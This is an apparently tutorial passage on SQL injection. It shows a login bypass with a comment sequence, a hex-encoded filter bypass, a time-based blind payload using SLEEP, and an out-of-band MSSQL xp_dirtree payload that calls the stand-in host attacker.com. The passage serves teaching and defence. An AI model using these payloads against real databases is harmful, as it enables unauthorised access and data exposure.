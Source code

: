 If the attacker sends `admin' --` in the input, then the final query will be:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = ''
```

`--` commenting out a password check, thus depending on the context, may give away access to the system. Obviously, in case of real attacks, we should expect more intricate payloads. 

For example, to bypass basic filters, the following are often used **Hexadecimal SQL Injection**:

```java
String query = "SELECT * FROM users WHERE user_id = " + userId;
```

Let's convert `1 OR 1=1 --` into hexadecimal format and get `0x31204F5220313D31`. If we submit this hexadecimal value into the form, we will get the following query:

```sql
SELECT * FROM users WHERE user_id = 0x31204F5220313D31
```

which is equivalent to:

```sql
SELECT * FROM users WHERE user_id = 1 OR 1=1 --
```

As should be evident by now, this will return all users.

#### How does a threat actor determine if an attack surface is vulnerable to SQL injection?

Typically, **blind SQL injections** are used to identify this vulnerability. The two most popular types are: **Time based SQL Injection** and **Out-of-Bound SQL Injection**. They are often used to identify vulnerable targets among the mined database of sites operating on the same basis (e.g. in WooCommerce).

**Time based SQL Injection**
The name speaks for itself. Let's take a look at the following example input:

```sql
' OR IF(1=1, SLEEP(10), false) --
```

The whole point of the attack is to monitor the server response time. If there are delays in the response (in our case around 10 seconds), it means that the application is vulnerable to SQL Injection and the attack can be launched.

**Out-of-Bound SQL Injection**
This is a more tedious SQL injection attack that relies on asyncronous database entries and its success depends heavily on the configuration of the target server. As an example, let's imagine that our target is using Microsoft SQL Server.

The attacker runs their server on `attacker.com` with the goal of intercepting all incoming DNS requests to the target and routing them to the attacker's server, which is the **server vulnerability identifier**.

After that, they send the following payload:

```sql
'; EXEC master..xp_dirtree '//attacker.com/sample'--.
```
